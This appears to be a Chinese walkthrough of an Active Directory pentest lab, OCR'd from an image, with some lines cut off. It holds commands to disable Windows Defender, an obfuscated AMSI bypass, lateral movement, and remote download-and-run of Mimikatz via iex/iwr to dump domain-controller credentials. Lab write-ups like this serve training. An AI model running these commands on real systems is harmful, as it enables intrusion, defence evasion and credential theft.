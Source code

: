 查看WinDefend状态，显示Running
```
PS C:\ad> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Running  WinDefend          Windows Defender Service
```

以管理员身份运行下面powershll命令：
```reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpywar" /d 1 /t REG_DWORD```

重启计算机
```
Restart-Computer
```

如果显示还是没有关掉，那就手动去关一下。。

# bloodhold

部署过程参考walkthrough1

参考bloodhold收集的结果，最快到达DA的路径是：
当前用户（student366）在RDPUsers组，可以以本地管理员的身份横向到计算机dcorp-adminsrv

dcorp-adminsrv和域控服务器dcorp-dc存在某种约束条件（Delegate）,可以加以利用

域控服务器dcorp-dc有域管理员的登录session

# 域权限提升
查看可以以本地管理员登录的计算机
```
PS C:\ad> . .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\ad> Find-PSRemotingLocalAdminAccess
dcorp-adminsrv
dcorp-std366
```

横向到dcorp-adminsrv
```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

可以bypass powershell policy，但是不能bypass AMSI，会报错
```
[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}
" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0
}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."s
E`T`VaLUE"( ${n`ULl},${t`RuE} )
Cannot invoke method. Method invocation is supported only on core types in this language mode.
At line:1 char:96
+ ... ,'rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly" ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : MethodInvocationNotSupportedInConstrainedLanguage
```

枚举所有AppLocker策略
```
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
ons


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'